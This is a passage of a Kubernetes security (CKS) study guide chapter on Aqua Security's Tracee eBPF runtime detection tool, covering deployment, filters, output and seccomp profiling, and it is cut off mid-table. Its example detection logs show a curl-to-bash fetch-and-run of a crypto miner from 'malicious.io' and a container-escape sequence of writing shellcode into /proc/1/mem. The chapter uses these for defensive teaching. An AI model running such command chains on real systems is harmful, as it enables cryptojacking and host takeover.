








# 11 — AquaSec Tracee

> **Domain:** System Hardening | **CKS Exam Weight:** Medium  
> **Prerequisites:** Ch. 10 (Linux Syscalls), Ch. 5 (Kernel Modules)  
> **Leads Into:** Ch. 12 (Seccomp), Ch. 13 (Seccomp in Kubernetes)

---

## Why This Matters

In Chapter 10 we saw that `strace` can trace syscalls — but it has a crippling flaw: it uses `ptrace()` internally, which causes up to **100× performance degradation** on the traced process. You simply cannot run `strace` on a production Kubernetes node without risking outages.

**Tracee** solves this. It is an open-source runtime security tool from Aqua Security that uses **eBPF** (Extended Berkeley Packet Filter) to observe syscalls with **near-zero overhead**, directly in the kernel — without modifying kernel code, loading extra kernel modules, or restarting applications.

```
"strace is a hammer — powerful but destructive in production.
 Tracee is a scalpel — precise, lightweight, and always-on."
```

From a CKS perspective, Tracee represents the **detection** layer of the defence-in-depth model:

| Layer | Tool | Action |
|-------|------|--------|
| Prevention | Seccomp (Ch. 12-13) | Block dangerous syscalls before they execute |
| Prevention | AppArmor (Ch. 14-16) | Restrict file/network access via LSM hooks |
| **Detection** | **Tracee (this chapter)** | **Observe and alert on suspicious syscall patterns at runtime** |
| Response | Audit + SIEM | Collect, correlate, and respond to events |

---

## What Is Tracee?

**Tracee** (pronounced "trace-ee") is an **open-source runtime security and observability tool** developed by **Aqua Security**. It uses **eBPF (Extended Berkeley Packet Filter)** technology to trace system calls and OS-level events in real time — across containers, pods, and host processes — with near-zero performance impact.



### Tracee at a Glance

| Attribute | Detail |
|-----------|--------|
| **Created by** | Aqua Security (open-source, Apache 2.0) |
| **Technology** | eBPF — programs that run safely inside the Linux kernel |
| **What it observes** | Syscalls, kernel events, network activity, container lifecycle |
| **Performance overhead** | < 1% CPU (unlike `strace` which causes up to 100× slowdown) |
| **Deployment** | Docker container or Kubernetes DaemonSet |
| **Primary use case** | Runtime threat detection — detect attacks as they happen |
| **Output formats** | Table (human-readable), JSON (machine-readable) |
| **Kernel requirement** | Linux 4.18+ with eBPF support |

### What Tracee Is NOT

| Misconception | Reality |
|--------------|---------|
| "Tracee is like strace" | strace uses `ptrace` and halts the process; Tracee uses eBPF and is non-invasive |
| "Tracee blocks syscalls" | Tracee **observes** — it does not block. Seccomp (Ch. 12) blocks. |
| "Tracee is a firewall" | Tracee is a detection/observability tool, not an enforcement tool |
| "Tracee replaces AppArmor" | They're complementary — Tracee detects, AppArmor enforces access rules |

---

## What Is eBPF?

Before understanding Tracee, you need to understand the technology it's built on.

**eBPF (Extended Berkeley Packet Filter)** is a revolutionary Linux kernel technology that allows sandboxed programs to run **inside the kernel** without modifying kernel source code or loading kernel modules.



### The eBPF Safety Guarantee

The kernel runs every eBPF program through a **verifier** before allowing it to execute. The verifier statically proves:

- No infinite loops (program must terminate)
- No out-of-bounds memory access
- No use of uninitialised variables
- No unsafe pointer arithmetic
- Program size is bounded

This means eBPF programs **cannot crash the kernel** — unlike traditional kernel modules. This is why they're safe for production use.

### eBPF vs. Alternative Approaches

| Approach | Overhead | Kernel Risk | Requires Recompile? | Examples |
|----------|----------|-------------|---------------------|---------|
| `strace` (ptrace) | 100× slowdown | None | No | Manual debugging |
| Kernel module | Minimal | HIGH (kernel panic risk) | Yes | Old IDS systems |
| Audit subsystem | Low-medium | None | No | `auditd`, falco |
| **eBPF** | **< 1%** | **None (verified)** | **No** | **Tracee, Falco, Cilium** |

---

## Tracee Architecture



### How Tracee Hooks Syscalls

Tracee attaches eBPF programs to **kernel tracepoints** and **kprobes** — instrumentation hooks built into the kernel at strategic points. When a syscall is triggered:

1. The eBPF program executes **before** (and optionally after) the kernel handler
2. It records the syscall name, arguments, PID, UID, container ID, timestamp
3. Data is passed via **ring buffer** (shared memory) to Tracee's user-space process
4. Tracee filters, formats, and outputs the event

The key: the application is **never paused**. No `ptrace` attach, no process suspension. The eBPF hook runs asynchronously.

---

## Running Tracee as a Docker Container

Tracee is typically deployed as a container because it bundles all its eBPF compilation dependencies. Running it standalone on the host requires kernel headers and Go toolchain.

### Why a Container?



### Required Bind Mounts


| Bind Mount | Host Path | Container Path | Mode | Purpose |
|-----------|-----------|----------------|------|---------|
| eBPF output cache | `/tmp/tracee` | `/tmp/tracee` | Read-Write | Persist compiled eBPF program between runs |
| Kernel modules | `/lib/modules` | `/lib/modules` | Read-Only | eBPF compilation needs kernel module info |
| Kernel headers | `/usr/src` | `/usr/src` | Read-Only | Compile eBPF code against your kernel version |

> 💡 **Why persist `/tmp/tracee`?** Compiling the eBPF program from source takes 10–30 seconds. By persisting it, subsequent Tracee runs start in ~1 second by reusing the cached compiled binary.

### Why `--privileged`?

eBPF programs need elevated capabilities to:
- Load eBPF programs into the kernel (`CAP_BPF`)
- Attach to kernel tracepoints (`CAP_PERFMON`)
- Access `/proc` for process/container metadata (`CAP_SYS_PTRACE`)
- Read kernel symbols from `/proc/kallsyms`

The `--privileged` flag grants all of these at once. In production, you can scope to specific capabilities using `--cap-add`.

### Why `--pid=host`?

Tracee needs to see all host PIDs (not just container PIDs) to correctly correlate syscall events with their originating processes and container IDs. Without `--pid=host`, PIDs inside the Tracee container would be different from host PIDs in the events.

---

## Tracing Mode 1: Single Command

Capture every syscall made by a specific command by name.

```bash
docker run --name tracee --rm --privileged --pid=host \
  -v /lib/modules/:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 --trace comm=ls
```

**Flag breakdown:**

| Flag | Meaning |
|------|---------|
| `--name tracee` | Name the container (easy to stop/rm) |
| `--rm` | Auto-remove container on exit |
| `--privileged` | Grant all capabilities (needed for eBPF) |
| `--pid=host` | Share host PID namespace |
| `-v /lib/modules:ro` | Kernel module info (read-only) |
| `-v /usr/src:ro` | Kernel headers (read-only) |
| `-v /tmp/tracee` | eBPF cache directory (read-write) |
| `--trace comm=ls` | Filter: only trace processes named `ls` |

### Sample Output

```
TIME(s)       UID  COMM  PID    TID    RET  EVENT        ARGS
1263.457188   0    ls    27461  27461  -2   openat       dirfd: AT_FDCWD, pathname: /etc/ld.so.preload, flags: O_RDONLY|O_CLOEXEC
1263.457218   0    ls    27461  27461  -2   openat       dirfd: AT_FDCWD, pathname: /lib/x86_64.../tls/libselinux.so.1, flags: O_RDONLY|O_CLOEXEC
1263.457238   0    ls    27461  27461  0    openat       dirfd: AT_FDCWD, pathname: /lib/x86_64.../libselinux.so.1, flags: O_RDONLY|O_CLOEXEC
1263.457291   0    ls    27461  27461  0    read         fd: 3, count: 832
1263.457305   0    ls    27461  27461  0    fstat        fd: 3
1263.457331   0    ls    27461  27461  0    mmap         addr: NULL, length: 180224, prot: PROT_READ
...
```

### Reading the Output Columns

| Column | Example Value | Meaning |
|--------|--------------|---------|
| `TIME(s)` | `1263.457188` | Seconds since system boot |
| `UID` | `0` | User ID of the calling process (0 = root) |
| `COMM` | `ls` | Process name (command) |
| `PID` | `27461` | Process ID |
| `TID` | `27461` | Thread ID (same as PID for single-threaded) |
| `RET` | `-2` | Return value (-2 = ENOENT = file not found) |
| `EVENT` | `openat` | Syscall name |
| `ARGS` | `pathname: /etc/ld.so.preload` | Syscall arguments |

> **Return value -2** is `ENOENT` (No such file or directory). These are the dynamic linker probe attempts for optional paths — completely normal. Successful calls return 0 or a file descriptor number.

---

## Tracing Mode 2: All New Processes

Monitor every new process started on the host — useful for baseline profiling or detecting unexpected process spawning.

```bash
sudo docker run --name tracee --rm --privileged --pid=host \
  -v /lib/modules/:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 --trace pid=new
```

**`--trace pid=new`** means: start tracing from this moment — any new PID that appears after Tracee starts will be traced.

### Sample Output (high volume)

```
TIME(s)       UID  COMM     PID   TID   RET  EVENT
1613.769845   0    wc       1619  1619  -2   openat
1613.769901   0    wc       1619  1619  0    openat
1613.771220   0    grep     1620  1620  -2   openat
1613.846148   0    kubectl  1617  1621  -2   openat
1613.846309   0    kubectl  1617  1621  0    read
1613.901442   0    kubelet  1622  1623  0    futex
1613.901889   1000 nginx    1624  1624  0    socket
...
```

> ⚠️ On a busy Kubernetes node, `pid=new` can produce **thousands of events per second**. Pipe through `grep` or use Tracee's built-in filters to focus on specific events.

### Useful Filters for `pid=new` Mode

```bash
# Only show exec events (new program executions)
--trace pid=new --trace event=execve

# Only show network-related syscalls for new processes
--trace pid=new --trace event=connect,socket,bind

# Only show events from root processes
--trace pid=new --trace uid=0

# Only show events that are NOT from trusted commands
--trace pid=new --trace comm!=kubelet --trace comm!=containerd
```

---

## Tracing Mode 3: New Containers

The most powerful mode for Kubernetes environments — trace every syscall from every **new container** that starts.

### Terminal 1 — Start Tracee

```bash
sudo docker run --name tracee --rm --privileged --pid=host \
  -v /lib/modules/:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 --trace container=new
```

`--trace container=new` instructs Tracee to detect new container namespaces and begin tracing their processes automatically.

### Terminal 2 — Launch a Test Container

```bash
docker run ubuntu echo hi
# Output: hi
```

### What You See in Terminal 1

As soon as the Ubuntu container starts, Tracee's terminal floods with the container's syscalls:

```
TIME(s)       UID  COMM   PID    TID    RET  EVENT
1890.123456   0    sh     4521   4521   0    execve      /bin/sh
1890.123501   0    sh     4521   4521   -2   openat      /etc/ld.so.preload
1890.123533   0    sh     4521   4521   0    openat      /lib/x86_64.../libc.so.6
1890.124001   0    echo   4522   4522   0    execve      /bin/echo
1890.124012   0    echo   4522   4522   0    write       fd: 1, data: "hi\n", count: 3
1890.124019   0    echo   4522   4522   0    close       fd: 1
1890.124025   0    echo   4522   4522   ?    exit_group  status: 0
```

You can see the full lifecycle: shell executes → echo executes → writes "hi" to stdout (fd: 1) → exits.

---

## Advanced Filtering Syntax

Tracee's `--trace` flag supports a rich filter language:

```bash
# ── BY PROCESS ────────────────────────────────────────────────────
--trace comm=nginx               # Only processes named nginx
--trace comm!=kubelet            # Exclude kubelet
--trace pid=1234                 # Specific PID
--trace pid=new                  # All new PIDs
--trace uid=0                    # Only root processes
--trace uid!=0                   # Non-root processes only

# ── BY CONTAINER ──────────────────────────────────────────────────
--trace container                # All containerized processes
--trace container=new            # Only new containers
--trace container=<ID>           # Specific container ID

# ── BY EVENT (SYSCALL) ────────────────────────────────────────────
--trace event=execve             # Only exec events
--trace event=execve,openat      # Multiple events
--trace event=net_packet         # Network packets (needs privileges)

# ── BY RETURN VALUE ───────────────────────────────────────────────
--trace retval=0                 # Only successful calls
--trace retval<0                 # Only failed calls (errors)

# ── COMBINING FILTERS ─────────────────────────────────────────────
# All execve events from new containers that are NOT from pid 1
--trace container=new --trace event=execve --trace pid!=1
```

---

## Tracee Output Formats

By default, Tracee outputs a human-readable table. For production integration, JSON is preferred:

```bash
# JSON output (pipe to SIEM, Splunk, Elasticsearch)
docker run ... aquasec/tracee:0.4.0 \
  --trace container=new \
  --output json

# JSON output example:
{
  "timestamp": 1613846148,
  "processId": 1617,
  "threadId": 1621,
  "parentProcessId": 1612,
  "hostProcessId": 1617,
  "userId": 0,
  "mountNamespace": 4026531840,
  "pidNamespace": 4026531836,
  "processName": "kubectl",
  "hostName": "node-1",
  "containerId": "a1b2c3d4e5f6",
  "containerName": "my-pod_my-container",
  "eventId": 257,
  "eventName": "openat",
  "argsNum": 4,
  "returnValue": -2,
  "args": [
    {"name": "dirfd", "type": "int", "value": -100},
    {"name": "pathname", "type": "const char*", "value": "/etc/ld.so.preload"},
    {"name": "flags", "type": "int", "value": 524288},
    {"name": "mode", "type": "mode_t", "value": 0}
  ]
}
```

### Saving Output to File

```bash
docker run ... aquasec/tracee:0.4.0 \
  --trace container=new \
  --output json \
  --output file:/var/log/tracee/events.json
```

---

## Tracee in Kubernetes — Deployment as DaemonSet

In production Kubernetes, Tracee runs as a **DaemonSet** — one pod per node, watching all containers on that node.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: tracee
  namespace: tracee-system
spec:
  selector:
    matchLabels:
      app: tracee
  template:
    metadata:
      labels:
        app: tracee
    spec:
      hostPID: true              # Required: see all host PIDs
      containers:
      - name: tracee
        image: aquasec/tracee:latest
        securityContext:
          privileged: true       # Required: load eBPF programs
        args:
          - --trace
          - container=new
          - --output
          - json
        volumeMounts:
        - name: tmp-tracee
          mountPath: /tmp/tracee
        - name: lib-modules
          mountPath: /lib/modules
          readOnly: true
        - name: usr-src
          mountPath: /usr/src
          readOnly: true
        - name: sys
          mountPath: /sys
          readOnly: true
      volumes:
      - name: tmp-tracee
        hostPath:
          path: /tmp/tracee
          type: DirectoryOrCreate
      - name: lib-modules
        hostPath:
          path: /lib/modules
      - name: usr-src
        hostPath:
          path: /usr/src
      - name: sys
        hostPath:
          path: /sys
      tolerations:
      - effect: NoSchedule        # Run on control plane nodes too
        operator: Exists
```

### Architecture: Tracee on a Kubernetes Node



---

## Tracee Rules Engine — Detecting Attacks

Newer versions of Tracee include a **rules engine** that applies pre-built detection signatures to the event stream. This moves Tracee from passive observation to active detection.

### Built-in Detection Rules (examples)



### Running Tracee with Rules

```bash
# Use built-in detection rules
docker run ... aquasec/tracee:latest \
  --trace container=new \
  --rules

# Run specific rules only
docker run ... aquasec/tracee:latest \
  --trace container=new \
  --rules stdio_over_socket,exec_from_tmp
```

---

## eBPF vs strace vs auditd — When to Use What



| Tool | Best For | Overhead | Detection? |
|------|----------|----------|-----------|
| `strace` | Dev/debug, short sessions | Very high | No |
| `auditd` | Compliance logging, persistent audit | Low-medium | No (log only) |
| `bpftrace` | One-off kernel probing | Minimal | No |
| **Tracee** | **Runtime K8s security, attack detection** | **< 1%** | **Yes** |
| Falco | Alternative to Tracee, broader ecosystem | Minimal | Yes |

---

## Real-World Scenarios

### Scenario 1 — Detecting a Crypto Miner Sneaking Into a Container

**Situation:** Your cluster is experiencing unexplained CPU spikes on some nodes. The usual suspects (resource-heavy pods) are not to blame.

**Investigation with Tracee:**

```bash
# Deploy Tracee on the affected node
# Watch for unexpected execve events from containers
docker run --rm --privileged --pid=host \
  -v /lib/modules:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 \
  --trace container=new \
  --trace event=execve
```

**Tracee Output:**

```
TIME(s)       UID  COMM      PID    RET  EVENT   ARGS
9871.223441   0    curl      8823   0    execve  /usr/bin/curl http://malicious.io/miner.sh
9871.229001   0    bash      8824   0    execve  /bin/bash /tmp/miner.sh
9871.229990   0    xmrig     8825   0    execve  /tmp/xmrig --pool pool.minexmr.com:443
```

**What this reveals:** A container is downloading and executing a crypto miner (`xmrig`) from `/tmp`. The `execve` chain shows the full attack sequence: `curl` → `bash` → `xmrig`.

**Response:** Kill the pod, pull the container image for forensic analysis, add network policy to block outbound connections to mining pools, scan all images with Trivy.

---

### Scenario 2 — Detecting a Container Escape Attempt

**Situation:** A web application container is compromised via a CVE. The attacker is attempting a container escape using a kernel exploit.

**Tracee catches it:**

```bash
# Tracee running with container=new
# Attacker's container makes unusual syscalls:
```

```
TIME(s)       UID  COMM    PID   RET  EVENT          ARGS
1234.001000   0    exploit 9100  0    ptrace         request: PTRACE_ATTACH, pid: 1
1234.002000   0    exploit 9100  0    openat         pathname: /proc/1/mem
1234.003000   0    exploit 9100  0    write          fd: /proc/1/mem, data: [shellcode]
1234.004000   0    exploit 9100  0    kexec_load     ...
```

**What this reveals:**
- `ptrace(PTRACE_ATTACH, pid=1)` — trying to attach to the init process (PID 1 = the host's systemd)
- Writing to `/proc/1/mem` — attempting to inject shellcode into the host init process
- `kexec_load` — trying to replace the kernel entirely

Any one of these alone would trigger a Tracee rule alert. Combined, they definitively indicate a container escape attempt.

**Response:** Immediately terminate the pod, isolate the node via a cordon, trigger incident response.

---

### Scenario 3 — Baselining an Application for Seccomp Profile Creation

**Situation:** Security team wants to create a minimal Seccomp profile for a newly deployed Go API service before going to production (Ch. 12 prerequisite).

**Step 1 — Profile with Tracee (much safer than strace in staging):**

```bash
# Run Tracee against the specific container
docker run --rm --privileged --pid=host \
  -v /lib/modules:/lib/modules:ro \
  -v /usr/src:/usr/src:ro \
  -v /tmp/tracee:/tmp/tracee \
  aquasec/tracee:0.4.0 \
  --trace comm=api-service \
  --output json \
  --output file:/tmp/api-syscalls.json
```

**Step 2 — Run realistic load against the service:**

```bash
# Simulate production traffic while Tracee captures
k6 run --vus 50 --duration 5m load-test.js
```

**Step 3 — Extract unique syscall names:**

```bash
cat /tmp/api-syscalls.json \
  | jq -r '.eventName' \
  | sort -u \
  > /tmp/api-allowed-syscalls.txt

cat /tmp/api-allowed-syscalls.txt
# brk
# clone
# close
# epoll_ctl
# epoll_wait
# execve
# exit_group
# futex
# getpid
# mmap
# mprotect
# munmap
# nanosleep
# openat
# read
# recvfrom
# sendto
# socket
# write
```

**Step 4 — Build Seccomp profile from this list (preview of Ch. 12):**

```bash
cat > /etc/seccomp/api-service.json << 'EOF'
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "syscalls": [
    {
      "names": ["brk","clone","close","epoll_ctl","epoll_wait",
                 "execve","exit_group","futex","getpid","mmap",
                 "mprotect","munmap","nanosleep","openat","read",
                 "recvfrom","sendto","socket","write"],
      "action": "SCMP_ACT_ALLOW"
    }
  ]
}
EOF
```

**Result:** A tight, application-specific Seccomp profile derived from real traffic — not guesswork. If the container is ever exploited, any attempt to call `ptrace()`, `kexec_load()`, or `mount()` is blocked at the kernel level.

---

## Common Mistakes and Pitfalls

| Mistake | Why It's a Problem | Correct Approach |
